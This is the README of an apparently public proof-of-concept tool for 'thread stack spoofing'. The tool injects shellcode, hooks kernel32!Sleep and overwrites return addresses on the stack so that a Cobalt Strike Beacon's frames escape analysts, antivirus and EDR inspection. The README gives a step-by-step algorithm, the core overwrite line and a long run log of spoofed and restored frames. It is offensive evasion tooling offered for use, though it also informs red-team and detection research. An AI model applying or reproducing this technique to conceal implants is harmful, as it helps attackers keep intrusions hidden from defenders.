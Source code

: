 # Thread Stack Spoofing PoC

This is an example implementation for _Thread Stack Spoofing_ technique aiming to evade Malware Analysts, AVs and EDRs looking for references to shellcode's frames in an examined thread's call stack.
The idea is to walk back thread's call stack and overwrite return addresses in subsequent function frames thus masquerading allocations containing malware's code.

An implementation may differ, however the idea is roughly similar to what [MDSec's Nighthawk C2](https://www.mdsec.co.uk/nighthawk/) offers for its agents.
Especially demonstrated in this video:

[Nighthawk - Thread Stack Spoofing](https://vimeo.com/581861665)


## How it works?

This program performs self-injection shellcode (roughly via classic `VirtualAlloc` + `memcpy` + `CreateThread`). 
Then when shellcode runs (this implementation specifically targets Cobalt Strike Beacon implants) a Windows function will be hooked intercepting moment when Beacon falls asleep `kernel32!Sleep`. 
Whenever hooked `MySleep` function gets invoked, it will spoof its own call stack leading to this `MySleep` function and begin sleeping. 
Having awaited for expected amount of time, the Thread's call stack will get restored assuring stable return and shellcode's execution resumption.

The rough algorithm is following:

1. Read shellcode's contents from file.
2. Acquire all the necessary function pointers from `dbghelp.dll`, call `SymInitialize`
3. Hook `kernel32!Sleep` pointing back to our callback.
4. Inject and launch shellcode via `VirtualAlloc` + `memcpy` + `CreateThread`
5. As soon as Beacon attempts to sleep, our `MySleep` callback gets invoked.
6. Stack Spoofing begins. 
7. Firstly we walk call stack of our current thread, utilising `ntdll!RtlCaptureContext` and `dbghelp!StackWalk64` 
8. We save all of the stack frames that match our `seems-to-be-beacon-frame` criterias (such as return address points back to a memory being `MEM_PRIVATE` or `Type = 0`, or memory's protection flags are not `R/RX/RWX`)
9. We terate over collected frames (gathered function frame pointers `RBP/EBP` - in `frame.frameAddr`) and overwrite _on-stack_ return addresses with a fake `::CreateFileW` address.
10. Finally a call to `::SleepEx` is made to let the Beacon's sleep while waiting for further communication.
11. After Sleep is finished, we restore previously saved original function return addresses and execution is resumed. 

Function return addresses are scattered all around the thread's stack memory area, pointed to by `RBP/EBP` register. In order to find them on the stack, we need to firstly collect frame pointers, then dereference them for overwriting:

```
	*(PULONG_PTR)(frameAddr + sizeof(void*)) = Fake_Return_Address;
```

This precise logic is provided by `walkCallStack` and `spoofCallStack` functions in `main.cpp`.


## Demo

This is how a call stack may look like when it is **NOT** spoofed:

![not-spoofed](images/not-spoofed.png)

This in turn, when thread stack spoofing is enabled:

![spoofed](images/spoofed.png)


## Example run

Example run that spoofs beacon's thread call stack:

```
C:\> ThreadStackSpoofer.exe beacon64.bin 1
[.] Reading shellcode bytes...
[.] Initializing stack spoofer...
[+] Stack spoofing initialized.
[.] Hooking kernel32!Sleep...
[.] Injecting shellcode...
WalkCallStack: Stack Trace:
        2.      calledFrom: 0x7ff7abc92de4 - stack: 0x50174ff7d0 - frame: 0x50174ff8e0 - ret: 0x1f255dabd51 - skip? 0
        3.      calledFrom: 0x1f255dabd51 - stack: 0x50174ff8f0 - frame: 0x50174ff8e8 - ret: 0x1388 - skip? 0
        4.      calledFrom: 0x    1388 - stack: 0x50174ff8f8 - frame: 0x50174ff8f0 - ret: 0x1f25683ae80 - skip? 0
        5.      calledFrom: 0x1f25683ae80 - stack: 0x50174ff900 - frame: 0x50174ff8f8 - ret: 0x1b000100000004 - skip? 0
        6.      calledFrom: 0x1b000100000004 - stack: 0x50174ff908 - frame: 0x50174ff900 - ret: 0x8003600140000 - skip? 0
        7.      calledFrom: 0x8003600140000 - stack: 0x50174ff910 - frame: 0x50174ff908 - ret: 0x1f255f76040 - skip? 0
        8.      calledFrom: 0x1f255f76040 - stack: 0x50174ff918 - frame: 0x50174ff910 - ret: 0x1f255d8cd9f - skip? 0
        9.      calledFrom: 0x1f255d8cd9f - stack: 0x50174ff920 - frame: 0x50174ff918 - ret: 0x1f255d8cdd0 - skip? 0
WalkCallStack: Stack Trace finished.
                        Spoofed: 0x1f255dabd51 -> 0x7ffeb7f74b60
                        Spoofed: 0x00001388 -> 0x7ffeb7f74b60
                        Spoofed: 0x1f25683ae80 -> 0x7ffeb7f74b60
                        Spoofed: 0x1b000100000004 -> 0x7ffeb7f74b60
                        Spoofed: 0x8003600140000 -> 0x7ffeb7f74b60
                        Spoofed: 0x1f255f76040 -> 0x7ffeb7f74b60
                        Spoofed: 0x1f255d8cd9f -> 0x7ffeb7f74b60
                        Spoofed: 0x1f255d8cdd0 -> 0x7ffeb7f74b60
MySleep(5000)
[+] Shellcode is now running.
WalkCallStack: Stack Trace:
        2.      calledFrom: 0x7ff7abc92e14 - stack: 0x50174ff7d0 - frame: 0x50174ff8e0 - ret: 0x7ffeb7f74b60 - skip? 1
        3.      calledFrom: 0x7ffeb7f74b60 - stack: 0x50174ff8f0 - frame: 0x50174ff8e8 - ret: 0x7ffeb7f74b60 - skip? 1
        4.      calledFrom: 0x7ffeb7f74b60 - stack: 0x50174ff8f8 - frame: 0x50174ff8f0 - ret: 0x7ffeb7f74b60 - skip? 1
        5.      calledFrom: 0x7ffeb7f74b60 - stack: 0x50174ff900 - frame: 0x50174ff8f8 - ret: 0x7ffeb7f74b60 - skip? 1
        6.      calledFrom: 0x7ffeb7f74b60 - stack: 0x50174ff908 - frame: 0x50174ff900 - ret: 0x7ffeb7f74b60 - skip? 1
        7.      calledFrom: 0x7ffeb7f74b60 - stack: 0x50174ff910 - frame: 0x50174ff908 - ret: 0x7ffeb7f74b60 - skip? 1
        8.      calledFrom: 0x7ffeb7f74b60 - stack: 0x50174ff918 - frame: 0x50174ff910 - ret: 0x7ffeb7f74b60 - skip? 1
        9.      calledFrom: 0x7ffeb7f74b60 - stack: 0x50174ff920 - frame: 0x50174ff918 - ret: 0x7ffeb7f74b60 - skip? 1
WalkCallStack: Stack Trace finished.
                        Restored: 0x7ffeb7f74b60 -> 0x1f255dabd51
                        Restored: 0x7ffeb7f74b60 -> 0x1388
                        Restored: 0x7ffeb7f74b60 -> 0x1f25683ae80
                        Restored: 0x7ffeb7f74b60 -> 0x1b000100000004
                        Restored: 0x7ffeb7f74b60 -> 0x8003600140000
                        Restored: 0x7ffeb7f74b60 -> 0x1f255f76040
                        Restored: 0x7ffeb7f74b60 -> 0x1f255d8cd9f
                        Restored: 0x7ffeb7f74b60 -> 0x1f255d8cdd0
```


## Author

```
Mariusz Banach / mgeeky, 
<mb [at] binary-offensive.com>, '21
```
